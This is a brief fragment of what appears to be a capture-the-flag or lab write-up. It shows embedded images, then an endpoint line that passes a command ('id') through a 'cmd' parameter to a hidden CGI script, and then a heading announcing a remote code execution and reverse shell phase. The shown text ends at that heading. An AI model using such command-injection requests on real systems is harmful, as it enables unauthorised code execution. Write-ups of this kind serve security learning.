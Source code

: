 ![image.png](image%2018.png)

![image.png](image%2019.png)

**ENDPOINT:**

```bash
/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id
```

> **Remote Code Execution & Reverse Shell Phase**
> 
